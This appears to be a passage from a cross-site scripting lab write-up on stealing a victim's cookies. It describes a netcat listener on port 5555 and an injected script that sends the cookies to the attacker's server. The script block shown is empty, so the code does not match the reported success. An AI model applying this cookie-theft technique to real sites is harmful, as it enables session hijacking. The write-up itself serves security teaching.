

## Task 3: Stealing Cookies from the Victim's Machine

**Objective:** Send the victim's cookies to the attacker's server.

**Steps:**
1. Set up a netcat listener on the attacker's machine on port 5555.
2. Modified the script to send a request to the attacker's server with the cookies as a query parameter.

```html
<script>
    document.write(''); 
</script>
```

*Script Injection*


*Listening to the port and retrieving cookies*


**Observation:**
- The attacker's server received the request containing the victim's cookies.


